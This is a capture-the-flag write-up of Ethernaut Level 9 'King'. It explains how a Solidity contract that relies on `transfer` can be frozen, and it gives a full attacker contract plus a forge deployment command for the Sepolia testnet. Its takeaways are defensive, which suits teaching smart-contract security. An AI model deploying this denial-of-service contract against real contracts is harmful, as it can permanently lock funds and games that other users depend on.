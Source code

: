 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/9-king.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 9 - King](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-09-king)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Goals

<img src="../assets/requirements/9-king-requirements.webp" width="800px"/>

## The hack

In this level, the goal is to become the king and then make sure that the contract is not able to transfer the prize to the next king. In other words, we have to become king and then break the game.

This requires an understanding of how the now-considered deprecated `transfer` works in solidity. This function throws an error if the transfer fails, but doesn't return a boolean value. This means that if the transfer fails, the transaction will revert.

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

First, we need to check the `prize` function to see how much ether is required to pass the `require` statement and become king.

Now, that we are king, how can we make sure that no one else can dethrone us? How to make sure the `transfer()` function reverts systematically after us? The answer is pretty simple, we just need to make sure that our king contract can't receive any ether. As long as no `receive()` or `fallback()` function is defined, the contract will not be able to receive any ether via the King contract, which will effectively prevent anyone from becoming the new king after us.

## Solution

Deploy a contract that can't receive ether via the "normal" way (no `receive()` or `fallback()` functions).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKing {
    function prize() external returns (uint256);
}

contract FallenKing {
    address private immutable king;

    constructor(address _king) {
        king = _king;
    }

    function attack() external payable {
        uint256 prize = IKing(king).prize();
        (bool success, ) = king.call{value: prize}("");
        require(success, "Transfer failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/09_King.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- `send` and `transfer` are now considered deprecated. They should be replaced by `call` with a proper Check-Effect-Interaction pattern to prevent re-entrancy.
- <b>External calls must be used with caution and must handle errors properly.</b>

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
